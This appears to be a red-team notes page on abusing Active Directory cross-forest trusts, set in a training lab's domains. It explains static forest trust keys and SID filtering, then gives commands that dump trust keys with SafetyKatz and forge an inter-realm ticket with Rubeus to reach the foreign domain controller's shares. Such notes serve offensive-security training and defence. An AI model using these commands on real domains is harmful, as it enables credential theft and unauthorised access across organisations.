

# Cross-Forest

In a cross-forest AD environment, **the mechanics of trust relationships mirror those of** [**cross-domain trusts**](cross-domain.md). However, while cross-domain trust relationships are implicit within a forest, **cross-forest trusts must be explicitly configured by administrators**. This deliberate configuration allows two separate forest roots to authenticate users and resources across organizational boundaries.

**Trust tickets operate in the same way in forest trusts as they do between domains**. If DA or EA access is obtained on one forest root, it becomes possible to impersonate similarly privileged users in the trusted forest, assuming the trust relationship permits it and the conditions are met.

A **critical difference** lies in the trust key management. Unlike domain trust keys, which rotate automatically (typically every 30 days), **the key used in a forest trust remains static unless manually changed**. This makes it an attractive target for long-term persistence, especially when combined with ticket forging techniques.

To defend against privilege escalation across forest boundaries, AD implements **SID filtering**. This mechanism **strips certain well-known SIDs from tickets issued across a forest trust**. Specifically, SIDs in the range typically associated with built-in privileged groups (e.g., DAs starting at RID 500 and DCs at 1000) are filtered out. As a result, attempts to embed these SIDs into a forged ticket from a foreign forest will be blocked by default.

<figure><figcaption></figcaption></figure>

However, **this filtering can be bypassed if misconfigurations exist**—especially when high-privileged groups are custom-created and assigned SIDs outside the filtered range. This scenario often arises in environments where administrators create new groups with elevated permissions but do not consider how SID filtering might interact with these roles. If a forest trust exists, there is usually a reason for it, and that reason often introduces risk if not properly managed.



To exploit such a trust, the first step is extracting the forest trust key (rc4):

```powershell
SafetyKatz.exe "lsadump::trust /patch"
SafetyKatz.exe "lsadump::lsa /patch"
SafetyKatz.exe "lsadump::dcsync /user:dcorp\ecorp$" "exit"
```



Once the trust key is obtained, it can be used to forge a cross-realm TGT (`krbtgt/domain`):


```powershell
Rubeus.exe silver /service:krbtgt/dollarcorp.moneycorp.local /rc4:<trust-key> /sid:<current-domain-SID> /ldap /user:Administrator /nowrap
```




With the TGT in hand, a TGS request can be issued for a service in the trusted forest (e.g. HTTP, CIFS, etc.) on the target host:


```powershell
# TGS request using the forged TGT
Rubeus.exe asktgs /service:cifs/eurocorp-dc.eurocorp.local /dc:eurocorp-dc.eurocorp.local /ptt /ticket:doI...2Fs

# Access the target resource
dir \\eurocorp-dc.eurocorp.local\<explicitly-shared-share>\
```




While **enumeration of external forests via service tickets is noisy and easily detected**, it remains the **only practical method for mapping trust paths** in a red team engagement without direct access to forest-wide enumeration tools.
